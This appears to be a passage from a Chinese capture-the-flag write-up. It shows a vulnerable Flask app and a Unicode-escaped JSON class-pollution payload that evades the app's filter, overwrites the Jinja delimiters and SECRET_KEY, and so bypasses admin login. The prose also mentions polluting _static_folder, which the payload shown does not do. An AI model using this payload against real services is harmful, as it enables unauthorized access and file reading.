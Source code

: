```python
            setattr(dst, k, v)

app = Flask(__name__)
app.secret_key = generate_random_md5()

class evil():
    def __init__(self):
        pass

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    Evil = evil()
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"
    return render_template("index.html")

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

```

python的原型链污染，需要把`app.secret_key`污染成一个我们想要的值，接着把 `_static_folder`的路径污染成服务器的根目录，实现任意文件读取从而得到flag。  
因为有waf所以这里就unicode一下

```json
{
    "\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F": {
        "\u005F\u005F\u0067\u006C\u006F\u0062\u0061\u006C\u0073\u005F\u005F": {
            "\u0061\u0070\u0070": {
                "\u006A\u0069\u006E\u006A\u0061\u005F\u0065\u006E\u0076": {
                    "\u0076\u0061\u0072\u0069\u0061\u0062\u006C\u0065\u005F\u0073\u0074\u0061\u0072\u0074\u005F\u0073\u0074\u0072\u0069\u006E\u0067": "[#",
                    "\u0076\u0061\u0072\u0069\u0061\u0062\u006C\u0065\u005F\u0065\u006E\u0064\u005F\u0073\u0074\u0072\u0069\u006E\u0067": "#]"
                },
                "config" : {
                    "\u0053\u0045\u0043\u0052\u0045\u0054\u005F\u004B\u0045\u0059" :"password"
                }
            }
        }
    }
}
```
